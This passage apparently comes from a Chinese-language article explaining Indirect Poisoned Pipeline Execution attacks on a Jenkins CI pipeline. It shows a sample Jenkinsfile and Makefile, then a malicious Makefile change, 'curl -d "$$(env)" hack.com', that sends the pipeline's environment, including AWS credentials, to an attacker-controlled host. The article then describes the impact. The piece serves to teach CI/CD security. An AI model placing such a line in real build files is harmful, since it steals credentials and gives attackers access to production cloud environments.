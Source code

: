 The Jenkinsfile：

    
    pipeline {
       agent any
       stages {
           stage('build') {
               steps {
                   withAWS(credentials: 'AWS_key', region: 'us-east-1') {
                           sh 'make build'
                           sh 'make clean'
                   }
               }
           }
           stage('test') {
               steps {
                   sh 'go test -v ./...'
    ...
    

The Makefile：

     build:
       echo "building…"
    
    clean:
       echo "cleaning…"
    

![](https://oscimg.oschina.net/oscnet/up-ba9e9eba4e989387a70b08be058bf5b288d.png)

在这种情况下，I-PPE 攻击将按如下方式进行：

*   攻击者在存储库中创建拉取请求，将恶意命令附加到 Makefile 文件中。

    build:
       curl -d "$$(env)" hack.com
    
    clean:
       echo "cleaning…"
    

*   由于流水线配置为在针对 repo 的任何 PR 时触发，Jenkins 流水线被触发，从存储库中获取代码，包括恶意Makefile。
    
*   流水线基于存储在主分支中的配置文件运行。进入构建阶段，如原始 Jenkinsfile 中定义，将 AWS 凭证加载到环境变量中。然后，运行make build命令，该命令执行添加到Makefile中的恶意命令。
    
*   执行 Makefile 中定义的恶意构建函数，将 AWS 凭证发送到攻击者控制的服务器。
    
*   攻击者随后能够使用窃取的凭证访问 AWS 生产环境。
    

影响
==

在成功的 PPE 攻击中，攻击者在 CI 中执行未经审查的恶意代码。这为攻击者提供了与构建任务相同的能力和访问级别，包括：

*   访问 CI 任务可用的任何机密，比如作为环境变量注入的机密或存储在 CI 中的其他敏感信息。CI/CD 系统负责构建代码和部署工件，通常包含多个如云提供商、工件注册表和 SCM 本身的重要凭证和令牌。
    